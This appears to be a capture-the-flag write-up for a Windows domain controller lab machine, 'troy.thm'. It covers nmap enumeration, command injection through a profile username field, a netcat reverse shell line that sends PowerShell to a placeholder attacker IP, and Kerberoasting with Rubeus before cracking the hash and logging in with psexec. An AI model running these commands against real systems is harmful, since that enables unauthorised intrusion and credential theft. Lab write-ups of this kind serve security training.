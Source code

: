 # H1:Medium!
## @Author : M3tr1c_r00t
```
   _   _   _   _   _   _   _   _   _  
  / \ / \ / \ / \ / \ / \ / \ / \ / \ 
 ( H | 1 | : | M | e | d | i | u | m )
  \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ 
```
### Enumeration...
```
# Nmap 7.92 scan initiated Tue Dec  6 17:02:26 2022 as: nmap -sC -sV -A -v -oN nmapscan.txt 10.10.110.172
Nmap scan report for 10.10.110.172
Host is up (0.17s latency).
Not shown: 985 filtered tcp ports (no-response)
PORT     STATE SERVICE           VERSION
80/tcp   open  http              Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: PhotoStore - Home
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
81/tcp   open  http              Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Network Monitor
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
82/tcp   open  http              Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-favicon: Unknown favicon MD5: C967A141ABFF1D6AB42CE7440E58128C
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2022-12-06 14:02:42Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: troy.thm0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: troy.thm0., Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl?
3389/tcp open  ms-wbt-server     Microsoft Terminal Services
|_ssl-date: 2022-12-06T14:04:52+00:00; -3h00m01s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: TROY
|   NetBIOS_Domain_Name: TROY
|   NetBIOS_Computer_Name: TROY-DC
|   DNS_Domain_Name: troy.thm
|   DNS_Computer_Name: TROY-DC.troy.thm
|   DNS_Tree_Name: troy.thm
|   Product_Version: 10.0.17763
|_  System_Time: 2022-12-06T14:04:12+00:00
| ssl-cert: Subject: commonName=TROY-DC.troy.thm
| Issuer: commonName=TROY-DC.troy.thm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-12-05T13:58:10
| Not valid after:  2023-06-06T13:58:10
| MD5:   1bc6 4a8a 2d03 9e3e 6ac7 7698 f486 23c9
|_SHA-1: 6fa0 163f 1616 6c7e 621e ac16 8f8c 1834 9099 ee8e
9999/tcp open  abyss?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 200 OK
|     Date: Tue, 06 Dec 2022 14:02:43 GMT
|     Content-Length: 0
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Date: Tue, 06 Dec 2022 14:02:42 GMT
|_    Content-Length: 0

Host script results:
|_clock-skew: mean: -3h00m01s, deviation: 0s, median: -3h00m01s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-12-06T14:04:11
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec  6 17:04:56 2022 -- 1 IP address (1 host up) scanned in 149.94 seconds

```
From the nmap scan, we can see the machine is a windows machine....
 So , lets visit the web server...
 ![Screenshot_2022-12-06_17_03_47](https://user-images.githubusercontent.com/99975622/210141422-1a6c2192-21c1-4dce-b74b-177fa2936e32.png)
We can see there's a login and signup pane, so we are gonna sign up....
<br> After signing up, you can see there is a profile pane where we can change our name and password....

![Screenshot_2022-12-06_17_04_02](https://user-images.githubusercontent.com/99975622/210141437-6707bfda-6beb-407a-8025-f13ac1320c58.png)
When you press tab, it automatically gets deleted, so there's probably some filtering going on...
![Screenshot_2022-12-06_17_06_08](https://user-images.githubusercontent.com/99975622/210141490-45314f85-54d0-4158-850c-f6a1bec088d0.png)

<br>On inspecting the site, we can see there's a js script which controls the data being input...
![Screenshot_2022-12-06_17_06_18](https://user-images.githubusercontent.com/99975622/210141501-e20c6a53-a939-499d-b202-0fe826b40f9d.png)
We can block the script then try exploiting the changing the username pane...
![Screenshot_2022-12-06_17_07_04](https://user-images.githubusercontent.com/99975622/210141523-778ad401-5248-411f-bd5e-f07b1914f8a8.png)
And boom! It works ...
<br>So now we can try getting a reverse shell...

locate the nc.exe binary on your linux distro or download it ...
![Screenshot_2022-12-06_17_07_39](https://user-images.githubusercontent.com/99975622/210141554-af00084b-cfa1-4845-b490-e1fcd70ef15e.png)

Next, send it to the machine....
![Screenshot_2022-12-06_17_09_43](https://user-images.githubusercontent.com/99975622/210141562-e5bd0a94-d014-446b-94f0-503a619a5738.png)

After that, set up a listener and then execute the binary using....
```
met | nc.exe <YOUR_IP> PORT -e powershell
```
![Screenshot_2022-12-06_17_11_55](https://user-images.githubusercontent.com/99975622/210141763-ce5a1c3d-c0ec-4dc4-9230-33c1c9872e34.png)

And we've gotten a shell
![Screenshot_2022-12-06_17_13_24](https://user-images.githubusercontent.com/99975622/210142231-6fb1e810-b7ec-469d-af94-880009ec7b7f.png)
 ### Priv Esc...
 After typing net user, we can see that achilles is the administrator....
 Next, you can try attacking the SAM file but no luck :(
 
 #### Attacking Kerberos
 I tried to  use GetNPUsers.py but we can try using Rubeus.exe 
 <br> After transferring the binary to the machine, run this command
 ```
 .\Rubeus.exe kerberoast /nowrap
 ```
 the /nowrap command makes sure there is now space between the hash...

![Screenshot_2022-12-06_17_18_04](https://user-images.githubusercontent.com/99975622/210145784-376a57c9-37f2-43e3-99be-a4da48a1db09.png)
Next, save the hash into a file then brute force it with john-the-ripper...

![Screenshot_2022-12-06_17_19_09](https://user-images.githubusercontent.com/99975622/210146140-648f133f-bbcd-42a5-af7f-501481893970.png)

After getting the password, you can now login to the machine using te psexec.py script as achilles...



![Screenshot_2022-12-06_17_30_30](https://user-images.githubusercontent.com/99975622/210146513-6acf6f03-1af6-4e91-984c-4407b21b9cb7.png)
And now you are administrator!


Well, you know the drill!
<br> Defense is up to you!
<br> :)

## My socials:
<br>@ twitter: https://twitter.com/M3tr1c_root
<br>@ instagram: https://instagram.com/m3tr1c_r00t/

